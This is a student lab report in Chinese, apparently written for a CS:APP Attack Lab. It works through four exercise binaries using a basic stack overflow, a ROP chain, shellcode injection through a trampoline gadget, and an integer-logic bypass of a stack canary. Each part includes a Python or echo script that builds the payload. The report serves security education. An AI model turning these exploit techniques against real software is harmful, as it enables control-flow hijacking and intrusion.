

# 栈溢出攻击实验

## 题目解决思路

### Problem 1: 基础栈溢出攻击
- **分析**：
  通过反汇编 `problem1`，定位到漏洞函数 `func` (0x401232)。在 `func` 中，程序使用 `strcpy` 将用户输入复制到栈上但未检查长度。
  通过分析汇编代码 `lea -0x8(%rbp),%rax` 可知，缓冲区起始地址距离 `%rbp` 只有 8 字节。栈结构如下：
  *   缓冲区：8 字节
  *   Saved RBP：8 字节
  *   Return Address：紧随其后
  因此，我们需要填充 16 字节 (8 + 8) 的垃圾数据，然后覆盖返回地址。目标是跳转到 `func1` (0x401216)，该函数会输出 "Yes! I like ICS!"。

- **解决方案**：
  利用 Python 生成二进制 payload 文件 `ans1.txt`。
  ```python
  import struct

  # 1. Padding: Buffer(8) + Saved RBP(8) = 16 bytes
  padding = b'A' * 16

  # 2. Target Address: func1 = 0x401216 (Little Endian)
  target_addr = struct.pack('<Q', 0x401216)

  # 3. Payload
  payload = padding + target_addr

  with open("ans1.txt", "wb") as f:
      f.write(payload)
  print("Payload for Problem 1 generated.")
  ```

- **结果**：
  运行命令 `./problem1 ans1.txt` 后，成功输出目标字符串。
  
  

### Problem 2: 绕过 NX 保护 (ROP)
- **分析**：
  本题开启了 NX (No-Execute) 保护，无法在栈上执行代码。题目要求调用 `func2` 并输出成功信息。通过分析 `func2` (0x401216)，发现它检查第一个参数 `%rdi` 是否等于 `0x3f8`。
  采用 ROP (Return Oriented Programming) 技术：
  *   **Gadget**: 找到 `pop %rdi; ret` 指令片段，地址为 `0x4012c7`。
  *   **栈布局**: 
      1. 填充 16 字节 (覆盖 Buffer 和 RBP)。
      2. 填入 Gadget 地址 (跳转去执行 `pop %rdi`)。
      3. 填入参数 `0x3f8` (被 pop 进 `%rdi` 寄存器)。
      4. 填入 `func2` 地址 (执行完 Gadget 后返回到这里)。

- **解决方案**：
  Python 脚本如下：
  ```python
  import struct

  def p64(val): return struct.pack('<Q', val)

  padding = b'A' * 16
  gadget_addr = 0x4012c7  # pop rdi; ret
  arg_val = 0x3f8         # Argument
  func2_addr = 0x401216   # Target Function

  payload = padding + p64(gadget_addr) + p64(arg_val) + p64(func2_addr)

  with open("ans2.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：
  运行命令 `./problem2 ans2.txt`，参数成功传递，验证通过。

  

### Problem 3: 代码注入与绕过 ASLR
- **分析**：
  本题关闭了 NX 但开启了 ASLR (地址随机化)，栈地址不可预测。通过反汇编发现一个特殊函数 `jmp_xs` (0x401334)，其作用是跳转到 `saved_rsp + 0x10` 的位置。计算可知该位置正好是 `func` 函数中缓冲区的起始位置。
  *   **攻击策略**: 
      1. Shellcode: 编写汇编代码，将 `0x72` (114) 放入 `%rdi`，并调用 `func1` (0x401216)。
      2. 布局: `[Shellcode] + [Padding] + [Ret Addr -> jmp_xs]`。
      3. 流程: `ret` -> `jmp_xs` -> 跳回栈顶 -> 执行 Shellcode。
  *   **偏移量**: Buffer 到 RetAddr 的距离为 40 字节。

- **解决方案**：
  Python 脚本生成包含机器码的 payload：
  ```python
  import struct

  jmp_xs = 0x401334

  # 汇编机器码: 
  # mov rdi, 0x72; mov rax, 0x401216; call rax
  shellcode = b"\xbf\x72\x00\x00\x00\xb8\x16\x12\x40\x00\xff\xd0"

  # 填充至 40 字节
  padding = b'A' * (40 - len(shellcode))

  payload = shellcode + padding + struct.pack('<Q', jmp_xs)

  with open("ans3.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：
  运行 `./problem3 ans3.txt`，成功输出 "Your lucky number is 114"。

  

### Problem 4: 金丝雀保护与逻辑漏洞
- **分析**：
  *   **Canary 保护机制**：通过 objdump 查看，发现函数设置了 Canary (从 `%fs:0x28` 读取随机值存入 `%rbp-0x8`)，并在退出前检查该值。若通过溢出覆盖会触发 `__stack_chk_fail`，因此无法使用传统栈溢出。
  *   **逻辑漏洞**：程序接收整数输入。如果输入 Input >= `0xfffffffe` (-2)，进入循环将输入值减去 `0xfffffffe`。若最终结果为 1，且原始输入为 -1 (`0xffffffff`)，则通关。
  *   **策略**：输入 -1 (`0xffffffff`) 满足 `0xffffffff - 0xfffffffe = 1`。不需要溢出，利用整数溢出和逻辑判断跳转。前两次 `scanf` 输入任意字符串填充。

- **解决方案**：
  不需要编写二进制生成脚本，直接构造文本输入即可。
  ```bash
  # 使用 echo 构造包含换行符的输入
  # 第一行：填充 name
  # 第二行：填充 id
  # 第三行：核心攻击 payload (-1)
  echo -e "MyName\nMyID\n-1" > ans4.txt
  ```

- **结果**：
  运行 `./problem4 < ans4.txt`，成功输出 "great!I will give you great scores"。

  

## 思考与总结

本次 Attack Lab 实验由浅入深，让我对二进制安全有了深刻的理解：

1.  **栈溢出的本质**：理解了函数调用栈帧的结构（Buffer, Saved RBP, Return Address）是进行攻击的基础。
2.  **防御机制的演进**：
    *   **NX (No-Execute)**：通过 Problem 2，我学习了如何利用 ROP 技术复用现有代码段来绕过不可执行栈的限制。
    *   **ASLR (Address Space Layout Randomization)**：通过 Problem 3，我见识了即使地址随机，利用相对寻址或特定的 Trampoline gadget (如 `jmp_xs`) 依然可能劫持控制流。
    *   **Canary (金丝雀)**：Problem 4 展示了最强的栈保护机制，直接阻断了线性溢出。但这也提醒我，安全不仅仅是内存安全，逻辑安全同样重要。即使没有缓冲区溢出，代码逻辑的缺陷（如整数处理不当）依然会导致系统被攻破。
3.  **工具的使用**：熟练掌握了 `objdump` 进行静态分析和 `gdb` 进行动态调试，以及使用 Python 脚本构建精确的二进制 Payload。

## 参考资料

1. Randal E. Bryant, David R. O'Hallaron. *Computer Systems: A Programmer's Perspective (3rd Edition)*. Pearson.
2. CTF Wiki - Stack Overflow. https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/
3. Attack Lab README.
